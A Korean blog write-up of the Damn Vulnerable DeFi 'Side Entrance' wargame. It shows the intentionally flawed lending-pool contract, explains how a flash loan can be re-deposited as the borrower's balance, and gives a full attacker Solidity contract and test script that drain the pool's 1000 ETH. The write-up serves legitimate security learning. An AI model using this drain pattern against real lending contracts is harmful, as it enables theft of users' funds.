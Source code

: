 ```yaml
---
title: "DamnVulnerableDefi Side entrance 풀이"
author: Grizzly
categories:
  - Wargame
tags:
  - DamnVulnerableDefi
  - SideEntrace

sitemap :
changefreq : daily
priority : 1.0
# table of contents
toc: true # 오른쪽 부분에 목차를 자동 생성해준다.
toc_label: "table of content" # toc 이름 설정
toc_icon: "bars" # 아이콘 설정
toc_sticky: true # 마우스 스크롤과 함께 내려갈 것인지 설정
---
```


## Overview
이 문제 역시 flashLoan에 관한 문제이고, `balance` 관리가 잘 못되어 취약점이 발생한다. `SideEntranceLenderPool.sol`이 주어지고, 이 파일에는 `SideEntranceLenderPool` 컨트랙트와 `IFlashLoanEtherReceiver` 인터페이스가 주어진다. ***이 문제의 목표는 `SideEntranceLenderPool` 컨트랙트가 가지고 있는 초기 자본인 `1000 eth`를 공격자가 모두 탈취하는 것이다.***

## 컨트랙트 분석
### SideEntranceLenderPool
~~~
contract SideEntranceLenderPool {
    using Address for address payable;

    mapping (address => uint256) private balances;

    function deposit() external payable {
        balances[msg.sender] += msg.value;  
    }

    function withdraw() external {
        uint256 amountToWithdraw = balances[msg.sender];
        balances[msg.sender] = 0;
        payable(msg.sender).sendValue(amountToWithdraw);
    }

    function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= amount, "Not enough ETH in balance");
        
        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");        
    }
}
~~~

이 컨트랙트는 다음과 같은 3개의 함수를 가지고 있다:
- `deposit()`: `msg.value`로 전달된 이더를 `msg.sender`의 잔고(`balances[msg.sender]`)에 추가.
- `withdraw()`: `msg.sender`가 가지고 있는 모든 이더를 `msg.sender`에게 전송.
- `flashLoan(uint256)`: 해당 컨트랙트의 잔액 체크와 함께 `IFlashLoanEtherReceiver` 인터페이스의 `execute()`를 호출. 이때, 대출금액(`amount`)를 전달.

`IFlashLoanEtherReceiver` 인터페이스에는 단순히 `execute()` 함수의 프로토타입만 선언되어 있다.

## Solution
이 문제는 선술한 것처럼 `balance` 체크에 문제가 있다.
`flashLoan` 함수를 보면, `execute()` 호출 전후로, `address(this).balance`를 이용해 현재 `SideEntranceLenderPool` 컨트랙트의 잔액을 확인한다.

반면, `deposit()`과 `withdraw()` 함수는 `SideEntranceLenderPool` 컨트랙트에 선언된 mapping 형 state variable인 `balances`를 이용해 잔액을 관리한다. 즉, `balances`에서 주소(혹은 계좌)간 잔액 이동이 발생해도 `address(this).balance`에는 변화가 없다. 

그리고, 당연하게도 `flashLoan` 함수에서 `IFlashLoanEtherReceiver` 인터페이스의 `execute()`를 호출하기 때문에 `flashLoan`을 호출하는 주체는 컨트랙트가 되어야 한다. 즉, 공격자는 자신의 스마트 컨트랙트를 작성하여 익스플로잇해야 한다. 위 내용들을 이용한 익스플로잇 시나리오는 다음과 같다.

1. 공격자가 `flashLoan()` 함수(`amount`는 `1000 eth`)를 호출하면, `execute` 함수가 호출되는데, `execute()`를 통해 다시 `deposit()`이 호출되도록 함. 이 과정에서 `balances`에 `SideEntranceLenderPool` 컨트랙트 주소가 가지고 있는 `1000 eth`가 공격자가 작성한 컨트랙트 주소로 이동됨.
2. `flashLoan` 함수가 종료되면, 공격자가 작성한 컨트랙트가 `withdraw()` 함수를 호출. 이 과정에서 `SideEntranceLenderPool` 컨트랙트에 쌓인 `1000 eth`가 공격자가 작성한 컨트랙트로 모두 전송됨.
3. `withdraw()` 함수 실행이 성공하면, Pool의 모든 이더가 공격자의 컨트랙트로 이동했기 때문에, 여유롭게 공격자의 주소로 *눈누난나*:D 이더를 전달함.

이 모든 과정을 수행하는 공격자의 컨트랙트는 다음과 같다.

~~~
contract AttackContract is IFlashLoanEtherReceiver {
    using Address for address payable;
    address payable public attacker;
    address public pool;

    constructor (address payable _attacker, address _pool) {
        attacker = _attacker;
        pool = _pool;
    }

    function execute() override external payable {
        SideEntranceLenderPool(pool).deposit{value: msg.value}();
    }

    function exploit(uint256 amount) public {
        SideEntranceLenderPool(pool).flashLoan(amount);

        SideEntranceLenderPool(pool).withdraw();
        payable(attacker).sendValue(address(this).balance);
    }

    fallback() external payable {

    }

    receive() external payable {

    }
}
~~~

그리고, 익스플로잇을 위한 Javascript 코드는 다음과 같다.

~~~
...
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */

    const AttackFactory = await ethers.getContractFactory("AttackContract", attacker);
    this.attackContract = await AttackFactory.deploy(attacker.address, this.pool.address);

    await this.attackContract.exploit(ETHER_IN_POOL);
    
});
...
~~~

***Sooooooooooo EZ***

## References
이번 문제는 너무 쉬워서 그런거 없다.